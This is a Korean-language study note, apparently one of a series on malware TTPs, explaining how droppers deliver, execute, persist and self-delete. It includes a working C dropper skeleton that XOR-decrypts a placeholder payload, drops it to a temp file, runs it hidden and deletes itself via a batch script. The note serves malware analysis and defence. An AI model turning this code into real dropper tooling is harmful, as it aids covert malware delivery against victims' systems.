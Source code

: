 ## Context

- **Tactic**: Malware Delivery Understanding
- **Technique**: Payload Deployment Analysis
- **Procedure**: Deconstruct dropper behavior and execution stages

## Core Idea

### Dropper란?
- Dropper는 **악성코드 배포를 위한 운반체(배달 상자)** 역할을 수행하는 프로그램이다.
- 최종적으로 실행될 `페이로드(랜섬웨어, RAT, 백도어 등)`를 시스템에 **드롭(Drop)**하여 실행 환경을 구성한다.
- 스스로 악의적인 행동을 수행하지 않으며, **페이로드를 안전하게 전달하고 실행하는 것이 주목적**이다.

![Dropper Schematic Diagram](./images/dropper-schematic-diagram.png)
**Figure 1.** dropper schematic diagram
### Dropper의 특징
- **탐지 회피**: 암호화된 형태로 페이로드를 포함하여 보안 솔루션의 탐지를 우회.
- **다양한 실행 방식**: 디스크에 파일을 저장하거나, 메모리에 직접 로드하여 실행 가능.
- **지속성 유지**: 레지스트리 등록, 작업 스케줄러 설정 등을 통해 시스템 재부팅 후에도 동작할 수 있음.
- **자기 삭제 기능**: 실행 후 탐지를 피하기 위해 흔적을 자동으로 제거 가능.

### Dropper 동작 흐름
![Dropper Execution Flow](./images/dropper-execution-flow.png)
**Figure 2.** dropper execution flow

1. **Dropper 실행** → 사용자가 Dropper(악성 실행 파일)를 실행
2. **페이로드 저장 (Dropping)**: 악성 페이로드를 저장하는 과정 수행
	- **디스크 저장:** `CreateFileA` → `WriteFile` 을 사용하여 디스크에 파일 드롭
	- **메모리 저장:** 페이로드를 메모리에 직접 로드(Reflective DLL Injection 등)하여 실행
3. **페이로드 실행 방식**: 저장된 페이로드를 실행하는 방식 선택
	- **디스크 실행:** `CreateProcessA/W`, `ShellExecute`를 사용하여 페이로드 실행
	- **메모리 인젝션:** `NtMapViewOfSection`, `VirtualAllocEx`, `WriteProcessMemory`, `CreateRemoteThread` 등을 활용하여 다른 프로세스에 코드 인젝션 후 실행
4. **지속성 확보 (Persistence)**: 악성코드가 재부팅 후에도 실행되도록 설정 가능
	- **레지스트리 수정:** `RegSetValueExA/W`사용, 스타트업, Run 키 등을 수정해 자동 실행 설정
	- **작업 스케줄러 사용:** `schtasks /create` 통해 예약 작업(Task Scheduler)으로 자동 실행 설정
5. **자기 삭제 (Self-Delete)**: 실행 후 탐지를 피하기 위해 자기 자신을 삭제
	- **즉시 삭제:** `cmd /c del` 명령어 실행하여 즉시 파일 삭제
	- **재부팅 후 삭제:** `MoveFileExA`를 사용하여 재부팅 시 삭제 예약

## Code / Experiment
```c
#include <windows.h>
#include <stdio.h>
#include <shlobj.h>

// XOR encryption/decryption
void xor_cipher(char *data, size_t data_len, const char *key, size_t key_len) {
    for (size_t i = 0; i < data_len; i++) {
        data[i] ^= key[i % key_len];
    }
}

int main() {
    char tempPath[MAX_PATH], payloadPath[MAX_PATH], batchPath[MAX_PATH];
    char encryptedPayload[] = "ENCRYPTED_PAYLOAD_PLACEHOLDER";
    const char encryptionKey[] = "SECRET_KEY";

    // Generate random file path in temp directory
    GetTempPathA(MAX_PATH, tempPath);
    sprintf(payloadPath, "%s%08x.exe", tempPath, rand());

    // Decrypt payload in memory
    char *decryptedPayload = malloc(sizeof(encryptedPayload));
    memcpy(decryptedPayload, encryptedPayload, sizeof(encryptedPayload));
    xor_cipher(decryptedPayload, sizeof(encryptedPayload), encryptionKey, sizeof(encryptionKey) - 1);

    // Write decrypted payload to disk
    HANDLE hFile = CreateFileA(payloadPath, GENERIC_WRITE, 0, NULL,
                                CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
    if (hFile != INVALID_HANDLE_VALUE) {
        DWORD written;
        WriteFile(hFile, decryptedPayload, sizeof(encryptedPayload), &written, NULL);
        CloseHandle(hFile);
        free(decryptedPayload);

        // Execute payload
        STARTUPINFOA si = { .cb = sizeof(si), .dwFlags = STARTF_USESHOWWINDOW, .wShowWindow = SW_HIDE };
        PROCESS_INFORMATION pi;
        CreateProcessA(payloadPath, NULL, NULL, NULL, FALSE, CREATE_NO_WINDOW, NULL, NULL, &si, &pi);
        CloseHandle(pi.hProcess); CloseHandle(pi.hThread);

        // Create batch script for self-deletion
        sprintf(batchPath, "%sdelete.bat", tempPath);
        HANDLE hBatch = CreateFileA(batchPath, GENERIC_WRITE, 0, NULL,
                                    CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
        if (hBatch != INVALID_HANDLE_VALUE) {
            char batchContent[512];
            sprintf(batchContent,
                "@echo off\n"
                ":repeat\n"
                "del \"%s\"\n"
                "if exist \"%s\" goto repeat\n"
                "del \"%s\"\n",
                __argv[0], __argv[0], batchPath);
            WriteFile(hBatch, batchContent, strlen(batchContent), &written, NULL);
            CloseHandle(hBatch);
            WinExec(batchPath, SW_HIDE);
        }
    } else {
        free(decryptedPayload);
    }

    return 0;
}
```

## Note

> One of several TTP-focused notes dissecting dropper mechanics.

**dropper-overview.md**
- **Tactic:** Malware Delivery Understanding
- **Technique:** Payload Deployment Analysis
- **Procedure:** Deconstruct dropper behavior and execution stages

**dropper-architecture.md**
- **Tactic:** Stealth Engineering
- **Technique:** Obfuscation & In-Memory Execution Patterns
- **Procedure:** Examine dropper file formats, storage methods, and execution models

**dropper-analysis-methods.md**
- **Tactic:** Threat Traceability
- **Technique:** Static & Dynamic Binary Analysis
- **Procedure:** Investigate dropper internals using r2, volatility, and process monitors

**dropper-code-deepdive.md**
- **Tactic:** Execution Mechanics Exploration
- **Technique:** Process Injection & Anti-Analysis
- **Procedure:** Reverse-engineer memory injection, control flow, and evasion logic

**dropper-mitigation.md**
- **Tactic:** Adaptive Defense Modeling
- **Technique:** Behavior Profiling & ML-Aided Detection
- **Procedure:** Design countermeasures using event logging, hardening, and ML classifiers